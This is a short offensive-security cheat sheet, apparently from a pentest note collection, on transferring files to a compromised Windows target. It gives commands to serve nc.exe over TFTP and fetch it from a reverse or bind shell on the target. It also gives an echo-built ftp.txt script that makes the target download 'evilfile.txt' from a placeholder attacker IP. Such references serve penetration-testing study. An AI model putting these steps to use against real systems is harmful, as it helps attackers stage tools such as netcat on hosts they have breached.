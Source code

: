 ### File Transfers
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
#### FTP File Transfer
On attacking machine, setup an ftp server
`apt-get install pure-ftpd`

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
`chmod 755`
`./setup-ftp`

Copy and paste the following code into your Windows target bind/reverse shell
```echo open *ATTACKINGIP* 21> ftp.txt
echo user bedford>> ftp.txt
echo *PASSWORD*>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt```

Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`


